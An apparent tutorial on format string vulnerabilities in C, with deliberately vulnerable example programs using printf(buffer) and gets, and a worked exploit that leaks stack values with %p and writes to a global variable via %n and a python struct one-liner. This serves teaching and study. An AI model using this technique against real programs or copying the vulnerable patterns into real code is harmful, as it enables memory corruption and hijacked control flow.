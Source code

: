# Format String Vulnerability

Format string vulnerabilities silly bug that is due to the poor coding practice
of the programmer. If an programmer passes an attacker controlled buffer as an
argument to a `printf` call (or any format string related function, e.g `sprintf,
fprintf`), attacker can perform write to arbitrary memory address.

To understand what I am talking about, take a look at the below example.

```C 
int main(int argc, char** argv) { 
    char buffer[100]; 
    strcpy(buffer, argv[1]); 
    printf(buffer); 
    return 0; 
} 
```

`printf` takes variable number of
arguments and the `format specifier` identifies how many arguments it **should**
access and what kind of data is stored onto that. To read how it takes variable
number of argument refer
[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).
And to read more about `format specifiers` refer
[this](http://www.cplusplus.com/reference/cstdio/printf/).

In the above mentioned program if you pass **sane** input like your name. e.g
`./string0 Rohit`. You will get your name on the output.  But attacker do not
always thinks of passing the sane output to the program.  Suppose you passed, lets
say `%x` to the program, since attackers knows that first argument to the printf must
be format specifier, if it is not supplied internally( that is through the
program), a malformed format specifier may list that out the content on the
stack.

:astonished: Attacker can the see the content of STACK.

### See Stack's Content
Lets see that in action. Try doing this:
```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$ 
```
Hey what just happened? Attacker's mind  :facepunch: you in the face.
`%p` is used to print the content of the memory in hexadecimal and that just
happened. Attacker fooled **printf** to print the content of memory by not giving
sane input but `format specifier` as input. This is termed as format string
vulnerability.

### What else we can do?
It This is not just limited to displaying the content in memory. This vulnerability
allows the attacker to perform writes to arbitrary memory.
To understand how the writes are actually happening, we need to understand the
concept of `%n`. This format specifier allows the printf to write to memory
location specified by one of its argument.
e.g  
```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```
In brief `%n` writes the number of characters printed so far get saved to `i`.  

Now we have two things in mind:
* Copy our own format specifier in printf.
* Write to some memory location onto stack(or some variable).

### Towards actual exploit. :metal:
Lets try to identify after how many 4 bytes memory locations, we are able to get
back to the buffer. So inorder to do it. I will put say `AAAA` in the beginning
of the exploit string. e.g  
``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``
Output  
`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`
Notice, `0x41414141` third to last. This is nothing but the hex of ASCII('A').
This means we reached the buffer after 9 %p and 10th one is buffer location. 
You may need to do several hit and trials in order to identify starting location
of buffer and it might not be same as mine (10th location).

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```
Now I will demonstrate Change of control flow using the techniques we have just
learned. Consider the above mentioned code. Find out the address of the buffer
from the current stack location using format string vuln.  
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`  
Output:
`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.  
Hey its again the same the 10th location. :metal:  

Now consider,  
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`
This above command will write `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` to
to the memory pointed by the 10th argument. But the 10th argument is nothing but
the `0x41414141` so it will try to write onto the memory address pointed by
`0x41414141` the value 32. Since it could be **read-only** memory, so you might
get the `Segmentation Fault`. What about putting some sensible address onto the
buffer instead of `0x41414141`. If we do so, then %n will write to that memory
pointed by that location.
Why not getting the address of `myvar`. Since it is global, we can get the
address of globals before the running the program.  
We will use , `objdump -t ./string1 | grep myvar`  
`0804a028 g     O .bss	00000004              myvar`  
The first data column contains the address for the `myvar`.  
**Crafting the exploit** to change the variable content then change the control
flow.
`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``
Output:
``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

:cool: We have exploited the binary.

#### What we have learnt:
Format string vulnerability allows to write to arbitrary location in programs
memory.





